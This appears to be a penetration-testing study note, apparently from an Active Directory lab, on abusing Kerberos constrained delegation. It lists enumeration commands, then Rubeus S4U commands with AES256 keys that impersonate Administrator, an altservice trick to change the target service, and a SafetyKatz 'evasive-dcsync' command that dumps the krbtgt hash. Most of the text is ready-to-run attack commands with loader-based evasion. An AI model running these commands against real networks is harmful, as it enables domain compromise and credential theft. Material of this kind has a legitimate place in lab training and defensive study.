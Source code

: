 To abuse constrained delegation in above scenario, we need to have access to the websvc account. If we have access to that account, it is possible to access the services listed in `msDS-AllowedToDelegateTo` of the `websvc` (web service on web server) account as **ANY user**

Find users and computers with constrained delegation enabled (PowerView + AD Module)
```powershell
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth

Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne
"$null"} -Properties msDS-AllowedToDelegateTo
```

**COMPROMISE THE WEB SERVICE ACCOUNT AND RUN THE FOLLOWING AS IT**

Request a `TGT` and `TGS` and impersonate any user
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\Rubeus.exe -args s4u /user:websvc /aes256:2d84a12f614ccbf3d716b8339cbbe1a650e5fb352edc8e879470ade07e5412d7 /impersonateuser:Administrator /msdsspn:"CIFS/mgmtsrv.tech.finance.corp" /ptt
```

Test
```powershell
dir \\dcorp-mssql.dollarcorp.moneycorp.local\c$
```

 
> [!NOTE] **NOTE**
> You can edit what services the machine/user account can access if you have `GenericAll/Write` rights to the first hop

#### Protocol Transition
We can change the protocol/service being accessed for the SPN. This is due to the SPN in the TGS being in clear-text and user editable.

**FOR MACHINE ACCOUNT AES KEYS ALWAYS USE THE ONE WHERE THE SID IS `S-1-5-18` AKA THE LAST ONE IN A LSADUMP**

Rubeus and the `/altservice` parameter
> **Note:** Change to `altservice` to `ldap` to run dcsync
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\Rubeus.exe -args s4u /user:dcorp-adminsrv$ /aes256:e9513a0ac270264bb12fb3b3ff37d7244877d269a97c7b3ebc3f6f78c382eb51 /impersonateuser:Administrator /msdsspn:"CIFS/mgmtsrv.tech.finance.corp" /altservice:http /ptt
```

Now run a DCSync 
```powershell
.\Loader.exe -path .\SafetyKatz.exe -args "lsadump::evasive-dcsync /user:dcorp\krbtgt" "exit"
```
